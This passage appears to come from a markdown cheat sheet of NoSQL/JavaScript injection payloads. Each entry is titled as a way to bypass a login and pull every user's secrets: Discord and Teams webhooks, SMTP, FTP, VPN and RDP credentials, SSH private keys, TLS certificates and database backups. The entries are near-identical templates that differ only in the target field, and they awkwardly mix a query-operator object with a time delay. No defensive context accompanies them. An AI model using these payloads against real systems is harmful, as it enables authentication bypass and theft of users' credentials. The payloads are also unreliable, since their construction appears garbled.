 ```plaintext
' || this.username == {$ne: null} && sleep(5000) || '1' == '1' && this.username != 'admin' && this.discord_webhook != null
```

#### Bypass Login and Get All Users' Microsoft Teams Webhooks

```plaintext
' || this.username == {$ne: null} && sleep(5000) || '1' == '1' && this.username != 'admin' && this.microsoft_teams_webhook != null
```

#### Bypass Login and Get All Users' Email SMTP Credentials

```plaintext
' || this.username == {$ne: null} && sleep(5000) || '1' == '1' && this.username != 'admin' && this.email_smtp_credentials != null
```

#### Bypass Login and Get All Users' FTP Credentials

```plaintext
' || this.username == {$ne: null} && sleep(5000) || '1' == '1' && this.username != 'admin' && this.ftp_credentials != null
```

#### Bypass Login and Get All Users' SSH Private Keys

```plaintext
' || this.username == {$ne: null} && sleep(5000) || '1' == '1' && this.username != 'admin' && this.ssh_private_key != null
```

#### Bypass Login and Get All Users' SSL/TLS Certificates

```plaintext
' || this.username == {$ne: null} && sleep(5000) || '1' == '1' && this.username != 'admin' && this.ssl_certificate != null
```

#### Bypass Login and Get All Users' VPN Credentials

```plaintext
' || this.username == {$ne: null} && sleep(5000) || '1' == '1' && this.username != 'admin' && this.vpn_credentials != null
```

#### Bypass Login and Get All Users' RDP Credentials

```plaintext
' || this.username == {$ne: null} && sleep(5000) || '1' == '1' && this.username != 'admin' && this.rdp_credentials != null
```

#### Bypass Login and Get All Users' Database Backups

```plaintext
' || this.username == {$ne: null} && sleep(5000) || '1' == '1' && this.username != 'admin' && this.db_backups != null
```
